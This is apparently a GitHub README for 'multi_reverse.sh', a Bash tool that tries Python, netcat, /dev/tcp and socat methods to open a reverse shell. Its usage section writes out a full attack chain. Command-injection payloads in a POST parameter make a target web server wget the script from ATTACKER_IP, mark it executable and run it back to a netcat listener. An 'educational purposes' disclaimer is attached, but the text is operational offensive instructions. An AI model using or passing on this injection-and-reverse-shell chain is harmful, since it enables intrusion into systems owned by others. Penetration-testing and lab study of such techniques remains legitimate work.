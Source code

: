 # Multi-Reverse Shell Script

## Overview

`multi_reverse.sh` is a Bash script designed to try multiple methods to establish a reverse shell connection to a remote host. The script tests various techniques including Python sockets, netcat with mkfifo, netcat with `-e` and `-c` flags, bash-based method, and socat.

This tool is intended for educational purposes and should be used only on networks for which you have explicit permission.

## Requirements

- Bash
- Python
- netcat (`nc`)
- `mkfifo`
- `socat`

## Usage

To execute the script, you'll need to pass the Remote Host (RHOST) and Remote Port (RPORT) as arguments.
This script is intended to be executed on target machine to test different methods to generate a reverse shell
```bash
# start a simple http server on current directory
python3 -m http.server 1234

# download multi_reverse.sh on ATTACKER_IP 
curl -X POST -d "testparam=;wget http://ATTACKER_IP:1234/multi_reverse.sh" http://TARGET_IP/

# give execution permission to multi_reverse.sh script
curl -X POST -d "testparam=;chmod +x ./multi_reverse.sh"   http://TARGET_IP/

# start a listener with netcat
nc -lvnp 1234

# execute script on TARGET_IP
curl -X POST -d "testparam=;./multi_reverse.sh <ATTACKER_IP> 1234"   http://TARGET_IP/

# if you see a prompt like the next one, then reverse shell was successful
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 38846
$ 
```

## Methods Used

### Python Socket
This method uses Python's socket library to connect to the remote host and port.

### Netcat with mkfifo
This technique uses netcat in conjunction with a named pipe (mkfifo) for establishing the reverse shell.

### Netcat with -e
The -e flag in netcat allows you to execute a shell (/bin/bash) upon connection.

### Netcat with -c
Similar to -e, but uses the -c flag instead.

### Bash-based
This method uses /dev/tcp to establish the reverse shell.

### Socat
This method utilizes the socat utility for more advanced features like creating a pseudo-terminal.
Exit Codes
- `0`:Successful reverse shell connection
- `1`:Failure or incorrect usage

## Disclaimer
This script is for educational purposes only. Always ensure you have explicit permission to access the target system.